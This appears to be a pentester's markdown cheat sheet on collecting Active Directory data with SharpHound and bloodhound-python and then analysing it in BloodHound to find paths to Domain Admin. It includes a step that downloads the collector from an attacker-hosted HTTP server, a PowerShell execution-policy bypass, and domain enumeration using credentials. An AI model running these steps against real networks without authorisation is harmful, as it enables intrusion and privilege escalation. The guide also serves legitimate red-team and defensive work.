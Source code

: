 # Data Ingesters
Collects data for Bloodhound to analyse.
## Sharphound
https://github.com/SpecterOps/SharpHound/releases
### Step 1: Transfer Sharphound to target
```bash
python3 -m http.server
```
```powershell
iwr -uri http://$(IP_ADDRESS)/SharpHound.ps1 -OutFile SharpHound.ps1
```
### Step 2: Import Sharphound module
```powershell
powershell -ep bypass
```
```powershell
Import-Module .\Sharphound.ps1
```
### Step 3: Invoke-Bloodhound
```powershell
Get-Help Invoke-BloodHound
```
```powershell
Invoke-BloodHound -CollectionMethod All -OutputDirectory $(PATH_TO_CURRENT_DIRECTORY) -OutputPrefix "$(OUTPUT_FILENAME)"
```
## Bloodhound-Python
```bash
sudo bloodhound-python -d $(DOMAIN) -u $(USERNAME) -p $(PASSWORD) -ns $(DC_IP_ADDRESS) -c all
```
# Bloodhound
## How to run Bloodhound
```bash
sudo neo4j start
```
Note the link:
![image](https://github.com/user-attachments/assets/f775144d-ddcc-4a2b-8e1e-62e17eb024ac)

Log in with default credentials (neo4j/neo4j) and change the password when prompted (REMEMBER THE CREDS - I usually do neo4j1).
```bash
bloodhound
```
On bloodhound, at the menu on the right hand side, select "Upload Data".

Then, navigate to where the files were created and select them all.

Finally, click Settings (represented as two cogs) on the right side of the interface and setting Node Label Display to Always Display.
## Analysis
Useful Options:
* Click the Hamburger menu at the top left. This presents the Database Info.
* Click "Find All Domain Admins".
* Click "Find Shortest Paths to Domain Admins". Right clicking any connection between nodes and clicking "Help" will show more details 
* Objects can be right clicked and "Mark x as Owned" selected. This allows use to mark which objects/users are owned.
* "Shortest Paths to Domain Admins from Owned Principals" option is useful as it shows how to get to Domain Admin based on what we have marked as owned.
